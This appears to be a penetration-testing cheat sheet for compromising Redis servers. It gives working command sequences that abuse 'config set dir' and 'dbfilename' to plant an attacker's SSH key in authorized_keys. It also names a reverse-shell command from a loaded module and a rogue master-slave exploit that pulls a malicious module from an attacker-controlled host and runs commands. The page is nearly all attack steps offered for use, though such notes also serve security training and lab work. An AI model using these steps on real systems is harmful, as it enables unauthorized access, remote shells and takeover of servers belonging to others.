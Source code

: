 # redis

## Config get dir Exploit

Note : need to know home of redis user

```bash
# redis-cli -h <IP>
> config get dir
1) "dir"
2) "/var/lib/redis"

# ssh-keygen -f id_rsa
# 3 spaces before and after key: (echo -e "\n\n"; cat id_rsa.pub; echo -e "\n\n") > spaced_id_rsa.txt
# cat spaced_id_rsa.txt| redis-cli -h IP -x set kashz
OK
> config set dir .ssh
OK
> config get dir
"/var/lib/redis/.ssh"
> config set dbfilename "authorized_keys"
OK
> save
OK
# ssh using id_rsa and user
```

## [load module](https://book.hacktricks.xyz/pentesting/6379-pentesting-redis#load-redis-module)

```
# need to be able to write module to target and know path of write file

# revere shell
system.rev IP PORT
```

## master-slave exploit

```python
https://github.com/vulhub/redis-rogue-getshell

python3 redis-master.py -r IP -p 6379 -L KALI_IP -P 27017 -f RedisModulesSDK/exp.so -c "id"
```

